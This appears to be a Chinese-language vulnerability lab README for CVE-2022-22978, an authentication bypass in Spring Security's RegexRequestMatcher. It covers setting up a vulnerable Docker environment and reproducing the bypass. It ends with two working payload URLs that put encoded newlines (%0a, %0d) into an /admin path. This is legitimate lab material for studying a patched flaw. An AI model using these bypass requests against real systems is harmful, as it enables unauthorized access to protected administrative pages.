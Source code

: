 # Spring Security RegexRequestMatcher 认证绕过漏洞（CVE-2022-22978）

Spring Security用于在Spring框架中提供安全认证功能。在Spring Security 5.5.6、5.6.3及更早的不受支持版本中，使用带有`.`的正则表达式的RegexRequestMatcher的应用程序可能存在认证绕过漏洞。

参考链接：

- <https://tanzu.vmware.com/security/cve-2022-22978>
- <https://github.com/DeEpinGh0st/CVE-2022-22978>

## 漏洞环境

执行如下命令启动一个基于Spring Security 5.6.3的Web应用：

```
docker compose up -d
```

服务器启动后，访问<http://your-ip:8080/admin>，可以看到管理页面的访问被阻止。

![](forbidden.png)

## 漏洞复现

发送以下请求来访问管理页面，成功绕过认证：

- <http://your-ip:8080/admin/%0atest>
- <http://your-ip:8080/admin/%0dtest>

![](bypassed.png)
